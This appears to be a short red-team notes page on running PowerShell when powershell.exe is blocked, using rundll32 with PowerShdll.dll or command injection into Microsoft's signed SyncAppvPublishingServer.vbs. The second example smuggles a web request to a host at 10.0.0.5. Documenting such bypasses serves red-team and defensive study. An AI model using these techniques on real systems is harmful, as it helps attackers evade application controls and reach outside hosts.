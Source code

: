 # Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```text
rundll32.exe PowerShdll.dll,main
```

![](../../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```text
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../../.gitbook/assets/pwshll-syncappvpublishingserver.png)

![](../../.gitbook/assets/pwshll-syncappvpublishingserver.gif)

## References

{% embed url="https://github.com/p3nt4/PowerShdll" caption="" %}

{% embed url="https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/" caption="" %}

{% embed url="https://www.youtube.com/watch?v=7tvfb9poTKg" caption="" %}

